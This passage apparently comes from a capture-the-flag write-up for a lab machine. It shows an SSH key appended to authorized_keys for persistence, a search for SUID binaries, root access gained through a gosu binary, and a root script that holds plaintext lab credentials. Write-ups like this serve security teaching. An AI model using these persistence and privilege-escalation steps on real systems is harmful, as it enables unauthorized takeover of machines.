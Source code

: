 ```
/data/git/.ssh $ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsiPbWC8feNW7o6emQUk12tFOcucqoS/nnKN/LM3hCtPN8r4by8Ml1IR5DctjeurAmlJtXcn8MqlHCRbR6hZKydDwDzH3mb6M/gCYm4fD9FppbOdG4xMVGODbTTPV/h2Lh3ITRm+xNHYDmWG84rQe++gJImKoREkzsUNqSvQv4rO1RlO6W3rnz1ySPAjZF5sloJ8Rmnk+MK4skfj00Gb2mM0/RNmLC/rhwoUC+Wh0KPkuErg4YlqD8IB7L3N/UaaPjSPrs2EDeTGTTFI9GdcT6LIaS65CkcexWlboQu3DDOM5lfHghHHbGOWX+bh8VHU9JjvfC8hDN74IvBsy120N5 kaneki@kaneki-pc" >> authorized_keys
```

There's not much `git` has access to, but I found an interesting  `gosu` suid binary:

```
/data/git $ find / -perm /4000 2>/dev/null
[...]
/usr/sbin/gosu
/bin/su
```

I can get root access by just running it:

```
3713ea5e4353:~$ gosu root /bin/bash
3713ea5e4353:/data/git# cd
3713ea5e4353:~#
```

The root user directory contains a 7zip archive and a `session.sh` file with some credentials.

```
3713ea5e4353:~# ls
aogiri-app.7z  session.sh

3713ea5e4353:~# cat session.sh
#!/bin/bash
while true
do
  sleep 300
  rm -rf /data/gogs/data/sessions
  sleep 2
  curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
done
```

The `session.sh` logs in to the gogs application every 10 minuters as per the crontab.

```
3713ea5e4353:~# crontab -l
# do daily/weekly/monthly maintenance
# min	hour	day	month	weekday	command
*/15	*	*	*	*	run-parts /etc/periodic/15min
0	*	*	*	*	run-parts /etc/periodic/hourly
0	2	*	*	*	run-parts /etc/periodic/daily
0	3	*	*	6	run-parts /etc/periodic/weekly
0	5	1	*	*	run-parts /etc/periodic/monthly
*/10	*	*	*	*	/root/session.sh
```

I grabbed the 7zip file and extracted it locally on my Kali VM. It contains the skeleton for a Java application and the git metadata.
